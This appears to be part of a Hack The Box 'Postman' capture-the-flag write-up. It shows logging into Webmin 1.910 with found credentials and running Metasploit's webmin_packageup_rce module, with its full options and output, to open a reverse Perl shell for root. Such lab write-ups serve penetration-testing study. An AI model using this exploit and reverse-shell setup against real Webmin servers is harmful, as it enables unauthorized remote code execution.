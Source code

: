 ██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. With Matt's creds (Matt:computer2008) we are now able to login to the webmin page - https://postman.htb:10000/
   Googling for Webmin 1.910 exploit shows that there are a RCE exploit using Metasploit. Use this exploit to get root.txt

   NOTE: I you get "[-] Exploit aborted due to failure: unknown: Failed to retrieve session cookie" when trying to use the exploit
         it's most likely a server-side error. Rebooting the box solved the error for me.

   msf5 > use exploit/linux/http/webmin_packageup_rce
   msf5 exploit(linux/http/webmin_packageup_rce) > options

   Module options (exploit/linux/http/webmin_packageup_rce):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   computer2008     yes       Webmin Password
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     postman.htb      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      10000            yes       The target port (TCP)
      SSL        true             no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       Base path for Webmin application
      USERNAME   Matt             yes       Webmin Username
      VHOST                       no        HTTP server virtual host


   Payload options (cmd/unix/reverse_perl):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.14.10      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Webmin <= 1.910

   msf5 exploit(linux/http/webmin_packageup_rce) > run

      [*] Started reverse TCP handler on 10.10.14.10:4444
      [+] Session cookie: 501d3e007ae09b5c7b9e1bcbc8009649
      [*] Attempting to execute the payload...
      [*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.160:40192) at 2019-11-08 15:08:01 +0100
